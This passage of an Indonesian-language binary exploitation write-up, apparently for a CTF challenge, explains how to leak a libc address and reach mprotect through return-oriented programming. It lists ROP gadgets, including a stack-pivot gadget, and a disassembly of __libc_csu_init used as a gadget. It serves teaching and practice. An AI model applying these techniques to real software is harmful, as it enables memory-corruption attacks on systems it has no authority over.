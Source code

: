 Yah gaada. Artinya kita perlu memanggilnya dari libc juga.

Aku gatau cara lain sih untuk panggil mprotect. Kalau ada yang tau komen dong, aku juga pengen tau.

### Mendapatkan nilai libc
Aku akan gunakan metode kedua, jauh lebih mudah seharusnya karena gausah diset register rax. Aku lewatin aja ya fase explorasinya, karena lama cari cara yang benar. Untuk mendapatkan sebuah nilai libc, aku bakal gunakan tiga gadget ajaib.

```
0x00000000004005dd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```

\*Catatan: yang berikut ini gak ditemukan oleh ropper, gunakan ROPgadget!
```
0x0000000000400518 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
```

```
   0x400587:    push   r13
   0x400589:    push   r12
   0x40058b:    lea    r12,[rip+0x200836]        # 0x600dc8
   0x400592:    push   rbp
   0x400593:    lea    rbp,[rip+0x200836]        # 0x600dd0
   0x40059a:    push   rbx
   0x40059b:    mov    r13d,edi
   0x40059e:    mov    r14,rsi
   0x4005a1:    sub    rbp,r12
   0x4005a4:    sub    rsp,0x8
   0x4005a8:    sar    rbp,0x3
   0x4005ac:    call   0x400400
   0x4005b1:    test   rbp,rbp
   0x4005b4:    je     0x4005d6
   0x4005b6:    xor    ebx,ebx
   0x4005b8:    nop    DWORD PTR [rax+rax*1+0x0]
   0x4005c0:    mov    rdx,r15
   0x4005c3:    mov    rsi,r14
   0x4005c6:    mov    edi,r13d
   0x4005c9:    call   QWORD PTR [r12+rbx*8]
   0x4005cd:    add    rbx,0x1
   0x4005d1:    cmp    rbp,rbx
   0x4005d4:    jne    0x4005c0
   0x4005d6:    add    rsp,0x8
   0x4005da:    pop    rbx
   0x4005db:    pop    rbp
   0x4005dc:    pop    r12
   0x4005de:    pop    r13
   0x4005e0:    pop    r14
   0x4005e2:    pop    r15
   0x4005e4:    ret
```
\*Catatan: Ini cuma fungsi __libc_csu_init!

ANJIR YANG TERAKHIR ITU GADGET???!?!?!?
